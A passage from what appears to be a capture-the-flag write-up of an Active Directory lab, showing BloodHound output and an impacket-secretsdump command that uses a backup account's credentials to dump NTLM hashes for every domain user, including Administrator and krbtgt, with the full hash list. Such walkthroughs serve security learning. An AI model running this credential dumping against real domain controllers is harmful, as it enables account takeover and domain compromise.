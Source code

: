 ```zsh
INFO: Ignoring host AttacktiveDirectory.spookysec.local since its reported name ATTACKTIVEDIREC does not match
INFO: Done in 00M 16S
INFO: Compressing output into 20230530164456_bloodhound.zip
```

Perfect! Now let's fire up `neo4j` and `bloodhound` and then see all info on the last tool:

![](/assets/img/AttacktiveDirectory/2.png)

## Secretsdump

- - -

With this privilege over `backup` user, should be enough to dump the `NT` hashes of all users:

```zsh
❯ impacket-secretsdump spookysec.local/backup:backup2517860@10.10.128.202
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:0bf31d7054b52845b517504a3f43006a:::
```